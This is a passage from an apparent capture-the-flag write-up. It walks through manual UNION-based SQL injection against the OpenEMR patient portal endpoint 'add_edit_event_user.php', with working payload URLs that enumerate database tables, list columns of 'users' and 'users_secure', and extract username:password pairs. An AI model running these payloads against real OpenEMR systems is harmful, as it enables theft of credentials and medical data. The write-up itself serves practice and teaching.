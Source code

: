 ![table](/assets/img/Posts/Cache/table.png)

Looking at the result we see only one table entry, let reform our query by adding `group_concat` to the statement

```terminal
/portal/add_edit_event_user.php?eid=1 UNION SELECT null,null,GROUP_CONCAT(table_name),null FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA='openemr'
```

![table2](/assets/img/Posts/Cache/table2.png)

We got the list of tables inside openemr database, but the result looks incomplete probably there is some kind of limit on how many field can be shown.

Let's again refine our query to look for something interesting like users table

```terminal
/portal/add_edit_event_user.php?eid=1 UNION SELECT null,null,GROUP_CONCAT(table_name),null FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA='openemr' AND TABLE_NAME like 'user%'
```
![table3](/assets/img/Posts/Cache/table3.png)

Bingo! Two interesting tables are `users` & `users_secure`

### Extracting Credentials

#### Step 5: Enumerating users & users_secure table

First, we'll enumerate users table by finding out columns inside it :

```terminal
/portal/add_edit_event_user.php?eid=1 UNION SELECT null,null,group_concat(column_name),null FROM INFORMATION_SCHEMA.columns WHERE TABLE_SCHEMA='openemr' AND TABLE_NAME='users'
```
![usertable](/assets/img/Posts/Cache/usertable.png)

We have username and password columns which are useful to us, let's take a look at them :

Since we already know we are under `openemr` database, we don't need to mention it again, If in case there were multiple databases running on this server we would have specified database name by `openemr.users`

We will be using concatenating three field where `0x3A is a colon (:) in hex` so our output will be in the form `username:password`

```terminal
/portal/add_edit_event_user.php?eid=1 union select null,null,group_concat(username,0x3a,password),NULL from users
```
![usertable1](/assets/img/Posts/Cache/usertable1.png)

Doesn't look like we have any password, let's try the similar query for `users_secure` table:

```terminal
/portal/add_edit_event_user.php?eid=1 union select null,null,group_concat(username,0x3a,password),NULL from users_secure
```
![usersecure](/assets/img/Posts/Cache/usersecure.png)
